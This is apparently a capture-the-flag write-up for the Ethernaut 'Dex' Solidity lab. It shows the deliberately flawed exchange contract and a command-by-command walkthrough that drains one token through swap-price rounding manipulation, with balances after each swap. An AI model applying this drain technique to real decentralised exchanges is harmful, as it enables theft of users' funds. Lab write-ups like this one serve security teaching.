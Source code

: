 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of token1 to token2, we can continouly swap the two tokens for each other till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
1. call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

2. let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

3. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 0
token2 : 20

[Dex balance]
token1 : 110 
token2 : 90
```

3. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 24
token2 : 0

[Dex balance after transaction]
token1 : 86 
token2 : 110
```

4. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 30

[Dex balance after transaction]
token1 : 110 
token2 : 80
```

5. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 41
token2 : 0 

[Dex balance after transaction]
token1 : 69
token2 : 110
```

6. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 65

[Dex balance after transaction]
token1 : 110 
token2 : 45
```

7. we cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 110
token2 : 20

[Dex balance after transaction]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained
